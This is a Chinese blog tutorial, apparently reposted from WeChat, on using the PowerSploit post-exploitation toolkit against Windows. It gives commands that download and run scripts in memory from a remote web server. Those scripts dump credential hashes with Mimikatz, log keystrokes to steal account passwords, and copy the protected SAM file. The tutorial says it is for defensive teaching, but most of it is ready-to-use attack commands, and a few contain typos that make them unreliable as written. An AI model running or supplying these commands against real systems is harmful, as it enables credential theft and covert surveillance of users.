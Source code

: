 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hOhykpoE5wT7dk9W6pyBSQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYafOUnnBrPFQG1dEWn2wSa9AJRoZyicRjfPRNruDFL2cKiaAQdc1YkLKYQ/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

PowerSploit  

PowerSploit 是 PowerShell 脚本的集合，集成了很多渗透测试能用到的脚本，是针对 win 系统进行后渗透的利器。  

https://github.com/PowerShellMafia/PowerSploit

这个工具下载完就是一些文件夹分类的 ps 脚本，每个文件夹对应不同功能模块

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYarsEzELoSibBS8MgFHfzSI1OnsYo65SdPGZNF8icYZYvibUG1UweRvGib2w/640?wx_fmt=png)

使用方法就是将脚本文件放在 web 服务器上，通过 PowerShell 的远程加载实现文件不落地执行

Exfiltration

这个模块主要是信息搜集，有啥用呢？

可以获取 hash、截屏、键盘记录等等  

Invoke-mimikatz

猕猴桃获取 hash 神器，通过 powershell 调用 mimikatz

```
PS C: > iex(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1')
```

然后使用 mimikatz 获取 hash 即可（管理员权限）

```
PS C: > Invole-mimikatz -command sekurlsa::logonpassword #会被win10阻拦
PS C: > Invole-mimikatz -command lsadump::asm           #从sam文件中获取
```

Get-Keystrokes

无敌的键盘记录器 ，记录按键、时间和活动窗口 ，主要是窃取账户密码用

```
PS C: > iex(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/Exfiltration/Get-Keystrokes.ps1')
PS C: > Get-Keystrokes -LogPath C:\123.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYaHnXuTBdGy89yXVasgMVxvicNicDCqwuMjIs5roeWq2O5BeKobg9mYhOQ/640?wx_fmt=png)  

Invoke-NinjaCopy

复制一些系统无法复制的文件，如 sam 文件 ( 管理员权限 )

```
PS C: > iex(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/Exfiltration/Invoke-NinjaCopy.ps1')
PS C: > Invoke-NinjaCopy -Path c:\windows\system\config\sam -LocalDestination C:\windows\temp\sam
```

